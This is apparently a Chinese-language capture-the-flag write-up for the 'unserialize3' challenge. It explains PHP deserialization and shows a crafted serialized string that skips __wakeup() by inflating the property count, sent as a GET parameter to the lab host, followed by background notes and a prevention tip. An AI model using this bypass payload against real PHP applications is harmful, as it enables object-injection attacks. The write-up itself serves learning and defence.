



# unserialize3
## 题目描述
暂无  

## 思路
http://220.249.52.133:40231  
点开题目链接：  
  
关键点就这俩，__wakeup() 函数的出现，大概率和反序列化漏洞有关。最后一行大概率是要在 url 中填充 GET 的值。  
我们先补全并运行一下代码，看看会输出什么：  
```php
<?php 
class xctf{
	public $flag = '111';
	public function __wakeup(){
		exit('bad requests');
	}
}
// 没有序列化函数，我们要加上，不然 __wakeup() 函数没啥用啊
$code = serialize(new xctf); 
echo $code;
?> 
```
输出：O:4:"xctf":1:{s:4:"flag";s:3:"111";}   
我们可以看到 "xctf":1 部分，表示 xctf 类中，只有一个属性。  
因此，修改这个输出：O:4:"xctf":2:{s:4:"flag";s:3:"111";} 并构造一个 url：  
http://220.249.52.133:40231/index.php?code=O:4:”xctf“:2:{s:4:”flag“;s:3:”111“;}  
得到 flag：  
  

## 补充知识
1. __wakeup() 函数用法  
__wakeup() 是用在反序列化操作中。unserialize() 会检查存在一个 __wakeup() 方法。如果存在，则先会调用 __wakeup() 方法。  
2. __wakeup() 漏洞利用  
__wakeup() 漏洞与序列化字符串的属性个数有关。当序列化字符串所表示的对象，其序列化字符串中属性个数大于真实属性个数时就会跳过 __wakeup() 的执行，从而造成 __wakeup() 漏洞。  
3. 反序列化漏洞  
反序列化漏洞也称为对象注入漏洞，即恶意攻击者利用 PHP 的对象序列化和反序列化进行攻击，将恶意数据注入 PHP 的代码中进行执行的漏洞。  
在 PHP 中使用 serialize() 函数可以把变量，包括对象，转化成连续bytes数据。可以将序列化后的变量存在文件里或在网络上传输，然后通过 unserialize() 反序列化还原为原来的数据。由于传输过程中和存放的位置可能被恶意人员篡改，从而导致反序列化回来的对象数据可能携带有恶意攻击者精心构造的攻击逻辑。下图所示为反序列化漏洞。  
  
大多数人都知道，__construct() 函数和 __destruct() 函数会在对象创建或者销毁时自动调用，在程序执行前 serialize() 函数会首先检查对象是否存在一个魔术方法 __sleep()。如果存在，则 __sleep() 方法会先被调用，然后才执行串行化（序列化）操作。__sleep() 方法必须返回一个数组，包含需要串行化的属性，PHP 会抛弃其他属性的值，如果没有 __sleep() 方法，PHP将保存所有属性。与之相反，unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup() 方法，预先准备对象数据。  
4. 防范  
避免反序列化漏洞最好的方法是，禁止将序列化后的数据进行网络传输，不要保存在容易被修改或拦截的地方，如 Cookie、URL 中。  
